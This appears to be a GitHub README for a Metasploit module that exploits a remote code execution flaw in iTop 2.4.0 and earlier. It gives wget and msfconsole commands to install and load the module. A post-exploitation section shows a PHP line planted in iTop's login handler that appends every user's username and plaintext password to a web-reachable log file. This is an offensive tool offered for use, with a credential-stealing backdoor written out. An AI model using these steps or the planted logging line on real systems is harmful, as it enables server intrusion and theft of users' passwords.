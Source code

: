 # Metasploit module for RCE in iTop <= 2.4.0

Installation:
------

```bash
mkdir -p ~/.msf4/modules/exploits/itop/
wget https://github.com/attackercan/itop-2.4.0-rce/itop_rce.rb -O ~/.msf4/modules/exploits/itop/
msfconsole
use exploit/itop/itop_rce
```

Post-exploitation:
------

After you have RCE, you can sniff successful login attempts by changing `./application/loginwebpage.class.inc.php`:

```php
	// User is Ok, let's save it in the session and proceed with normal login
>>>>>	file_put_contents('./css/ui-lightness/images/log.txt', $sAuthUser.":".$sAuthPwd."\r\n", FILE_APPEND);
```
